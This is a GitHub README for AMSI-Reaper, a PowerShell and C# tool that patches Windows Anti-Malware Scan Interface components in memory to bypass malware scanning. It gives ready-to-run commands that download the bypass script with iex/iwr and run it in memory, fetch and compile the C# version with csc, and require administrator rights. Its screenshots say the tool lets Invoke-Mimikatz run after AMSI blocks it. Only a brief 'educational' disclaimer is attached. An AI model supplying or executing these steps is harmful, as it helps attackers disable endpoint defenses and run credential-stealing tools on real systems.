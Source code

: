 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)
## Overview
- AMSI-Reaper is a tool developed in both PowerShell and C# (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface [(AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) in Windows. AMSI is a built-in security feature in Windows that allows applications and services to integrate with antimalware products.
- By default, it provides a layer of protection against potentially malicious scripts and code executed in applications like PowerShell. 

## Features
- Bypass AMSI: AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- PowerShell and C# Support: The tool is available in both [PowerShell](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [C#](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) versions, making it adaptable to different use cases.

## Usage
- *__AMSI-Reaper requires Administrator privileges to function correctly. Please run the tool as an Administrator.__*
### PowerShell Version
- __Download__
```
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### C# Version
- __Download__
```
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Disclaimer
- *__The AMSI-Reaper tool is meant for educational and research purposes only. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Images
- *Invoke-Mimikatz is detected and blocked by AMSI*
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
- *With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.*
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
- *Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with csc.*
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
